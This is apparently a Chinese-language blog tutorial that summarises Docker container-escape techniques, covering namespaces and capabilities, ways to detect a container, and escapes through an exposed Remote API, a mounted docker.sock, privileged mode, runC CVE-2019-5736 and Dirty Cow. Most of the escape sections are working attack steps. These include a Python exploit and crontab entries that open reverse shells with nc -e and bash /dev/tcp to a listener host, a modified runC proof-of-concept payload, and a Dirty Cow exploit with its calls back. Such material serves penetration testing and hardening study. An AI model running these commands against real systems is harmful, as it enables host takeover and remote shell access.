

# [](#docker-%E9%80%83%E9%80%B8%E7%9B%B8%E5%85%B3%E6%80%BB%E7%BB%93)Docker 逃逸相关总结

## [](#1-docker-%E6%A0%B8%E5%BF%83%E6%8A%80%E6%9C%AF)1 Docker 核心技术

Docker 是一个开源的应用容器引擎，可以让开发者打包任何应用以及依赖包到容器中，然后发布到任何流行的 Linux 机器上，完美的解决了测试环境与生产环境的某些不一致性问题。相比于传统的虚拟化技术， Docker 容器直接使用宿主机内核，也不存在硬件的虚拟，要轻便许多。

Docker 自出现后便经常与虚拟机做比较，有些人甚至认为 Docker 就是一种虚拟机。虚拟机总的来说是利用 Hypervisor 虚拟出内存、CPU等等。

我们来看一张图：我们把图中的矩形看作一个计算机，内部的圆圈看作一个又一个的进程，它们使用着相同的计算机资源，并且相互之间可以看到。


Docker 做了什么事呢？Docker 给它们加了一层壳，使它们隔离开来，此时它们之间无法相互看到，但是它们仍然运行在刚刚的环境上，使用着与刚刚一样的资源。我们可以理解为，它们与加壳之前的区别就是无法相互交流了。需要说一句的是，这个壳我们可以将它看作一个单向的门，外部可以往内走，但是内部却不能往外走。这在计算机中的意思就是，外部进程可以看到内部进程，但是内部进程却不能看到外部进程。


### [](#11-namespace)1.1 namespace

命名空间 (namespaces) 是 Linux 为我们提供的用于分离进程树、网络接口、挂载点以及进程间通信等资源的方法，是内核级别的环境隔离。在实际的运行过程中，多个服务之间的状态或资源是会相互影响的，每一个服务都能看到其它服务的进程，也可以访问宿主机器上的任意文件，而 docker 的目的是同一台机器上的不同服务能做到**完全隔离**，就像运行在多台不同的机器上一样，对此就需要在创建进程的时候指定 namespaces 来实现。

Linux 的命名空间机制提供了以下七种不同的命名空间，包括 `CLONE_NEWCGROUP`、`CLONE_NEWIPC`、`CLONE_NEWNET`、`CLONE_NEWNS`、`CLONE_NEWPID`、`CLONE_NEWUSER` 和 `CLONE_NEWUTS`，通过这七个选项我们能在创建新的进程时设置新进程应该在哪些资源上与宿主机器进行隔离。

由以上可知，Docker 并没有使用任何虚拟化技术，其就是一种隔离技术。如果你对 Linux 命令比较熟悉，甚至可以理解为 Docker 是一种高级的 chroot。

### [](#12-docker-%E5%AE%89%E5%85%A8%E6%9C%BA%E5%88%B6)1.2 docker 安全机制

因为 Docker 所使用的是隔离技术，使用的仍然是宿主机的内核、CPU、内存，那会不会带来一些安全问题？答案是肯定的，那 Docker 是怎么防护的？ Docker 的安全机制有很多种：Linux Capability、AppArmor、SELinux、Seccomp 等等，本文主要讲述一下 Linux Capability

因为 Docker 默认对 User Namespace 未进行隔离，在 Docker 内部查看 /etc/passwd 可以看到 uid 为 0，也就是说，Docker 内部的 root 就是宿主机的 root。但是如果你使用一些命令，类似 iptables -L，会提示你权限不足。

这是由 Linux Capability 机制所实现的。自 Linux 内核 2.1 版本后，引入了 Capability 的概念，它打破了操作系统中超级用户/普通用户的概念，由普通用户也可以做只有超级用户可以完成的操作。

Linux Capability 一共有 38 种，分别对应着一些系统调用，Docker 默认只开启了 14 种。这样就避免了很多安全的问题。熟悉 Docker 操作的人应该可以意识到，在开启 Docker 的时候可以加一个参数是 `--privileged=true`，这样就相当于开启了所有的 Capability。使用 docker inspect {container.id} 在 CapAadd 项里可以看到添加的 capability。


## [](#2-%E5%88%A4%E6%96%AD%E6%98%AF%E5%90%A6%E5%9C%A8-docker-%E5%AE%B9%E5%99%A8%E4%B8%AD)2 判断是否在 Docker 容器中

首先，我们需要先判断是否在 Docker 环境里，常用的两个检测方式：

-   检查 `/.dockerenv` 文件是否存在
-   检查 `/proc/1/cgroup` 内是否包含 Docker 等字符串。

目前来说，这两种检测方式还是比较有效的，其他检测方式，如检测mount、fdisk -l 查看硬盘 、判断 PID 1 的进程名等也可用来辅助判断。


## [](#3-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%BC%95%E5%8F%91-docker-%E9%80%83%E9%80%B8)3 配置不当引发 Docker 逃逸

### [](#31-docker-remote-api-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)3.1 Docker Remote API 未授权访问

漏洞简述：Docker Remote API 可以执行 Docker 命令，Docker 守护进程监听在 0.0.0.0，可直接调用 API 来操作 Docker。

利用方法是，我们随意启动一个容器，并将宿主机的 `/etc` 目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入 crontab 配置文件，进行反弹 shell。

EXP：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```python<br>import docker<br><br>client = docker.DockerClient(base_url='http://your-ip:2375/')<br>data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontab" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})<br>``` |

### [](#32-dockersock-%E6%8C%82%E8%BD%BD%E5%88%B0%E5%AE%B9%E5%99%A8%E5%86%85%E9%83%A8)3.2 docker.sock 挂载到容器内部

场景描述：简单来说就是 docker in docker，在 docker 容器中调用和执行宿主机的 docker，将 docker 宿主机的 docker 文件和 docker.sock 文件挂载到容器中，具体为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>docker run --rm -it \<br>  -v /var/run/docker.sock:/var/run/docker.sock \<br>  -v /usr/bin/docker:/usr/bin/docker \<br>  ubuntu \<br>  /bin/bash<br>``` |

漏洞复现：

1.  在容器中找到 docker.sock

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>root@95a280bc5a19:/# find / -name docker.sock<br>/run/docker.sock<br>``` |

2.  在容器查看宿主机 docker 信息：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker -H unix:///var/run/docker.sock info<br>``` |

3.  运行一个新容器并挂载宿主机根路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker -H unix:///var/run/docker.sock run -it -v /:/test ubuntu /bin/bash<br>``` |

4.  在新容器的 /test 目录下，就可以访问到宿主机的全部资源，接下来就是写入 SSH 密钥或者写入计划任务，获取 shell。

### [](#33-docker-%E9%AB%98%E5%8D%B1%E5%90%AF%E5%8A%A8%E5%8F%82%E6%95%B0)3.3 Docker 高危启动参数

Docker 中存在一些比较高危的启动命令，给予容器较大的权限，允许执行一些特权操作，在一定的条件下，可以导致容器逃逸。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```bash<br>docker run --rm -it <br>    --privileged <br>    -v /:/soft <br>    --cap-add=SYS_ADMIN <br>    --net=host  <br>    --pid=host    <br>    --ipc=host <br>    ubuntu <br>    /bin/bash<br>``` |

#### [](#%E7%89%B9%E6%9D%83%E6%A8%A1%E5%BC%8F---privileged)特权模式 –privileged

使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

-   通过特权模式运行一个容器：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker run -itd --privileged ubuntu:latest /bin/bash<br>``` |

-   在容器内，查看磁盘文件：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>fdisk -l<br>``` |

-   将 `/dev/sda1` 挂载到新建目录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>mkdir /test<br>mount /dev/sda1 /test<br>``` |

-   将计划任务写入到宿主机

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>echo '* * * * * /bin/bash -i >& /dev/tcp/172.19.0.1/4444 0>&1' >> /test/var/spool/cron/crontabs/root<br>``` |

### [](#34-docker-%E8%BD%AF%E4%BB%B6%E8%AE%BE%E8%AE%A1%E5%BC%95%E8%B5%B7%E7%9A%84%E9%80%83%E9%80%B8)3.4 Docker 软件设计引起的逃逸

#### [](#341-cve-2019-5736)3.4.1 CVE-2019-5736

CVE-2019-5736 是 runC 的 CVE 漏洞编号，runC 最初是作为 Docker 的一部分开发的，后来作为一个单独的开源工具和库被提取出来，在 docker 整个架构的运行过程中，Containerd 向 docker 提供运行容器的 API，二者通过 grpc 进行交互。containerd 最后通过 runc 来实际运行容器。

**影响版本**

-   docker version <=18.09.2
-   RunC version <=1.0-rc6

**利用条件：**

攻击者可控 image，进一步控制生成的 container

攻击者具有某已存在容器的写权限，且可通过 docker exec 进入

**漏洞复现：**

1.  测试环境镜像下载安装

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh<br>``` |

2.  下载POC，修改脚本，编译

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```bash<br># 下载 poc<br>git clone https://github.com/Frichetten/CVE-2019-5736-PoC<br><br># 修改Payload<br>vi main.go<br>payload = "#!/bin/bash \n bash -i >& /dev/tcp/172.19.0.1/4444 0>&1"<br><br># 编译生成 payload<br>CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go<br><br># 拷贝到 docker 容器中执行<br>docker cp ./main 248f8b7d3c45:/tmp<br>``` |

3.  在容器中执行 payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>root@d1b112ea4a5e:/tmp# ./main<br>[+] Overwritten /bin/sh successfully<br>[+] Found the PID: 16<br>[+] Successfully got the file handle<br>[+] Successfully got write handle &{0xc8201231e0}<br>``` |

4.  假设，管理员通过 exec 进入容器，从而触发 Payload。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker exec -it  cafa20cfb0f9 /bin/sh<br>``` |

在 172.19.0.1 上监听本地端口，成功获取宿主机反弹回来的shell。

#### [](#342-cve-2019-14271)3.4.2 CVE-2019-14271

[https://xz.aliyun.com/t/6806](https://xz.aliyun.com/t/6806)

### [](#35-%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E)3.5 内核漏洞

Dirty Cow（CVE-2016-5195）是 Linux 内核中的权限提升漏洞，通过它可实现 Docker 容器逃逸，获得 root 权限的 shell。

环境准备：

docker 与宿主机共享内核，因此我们需要存在 dirtyCow 漏洞的宿主机镜像。

添加容器下载并运行：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>git clone https://github.com/gebl/dirtycow-docker-vdso.git<br>cd dirtycow-docker-vdso/<br>sudo docker-compose run dirtycow /bin/bash<br>``` |

\*\*漏洞利用：\*\*进入容器，编译 POC 并执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>cd /dirtycow-vdso/<br>make<br>./0xdeadbeef 172.19.0.1:4444<br>``` |



在 172.19.0.1 监听本地端口，成功接收到宿主机反弹的 shell。


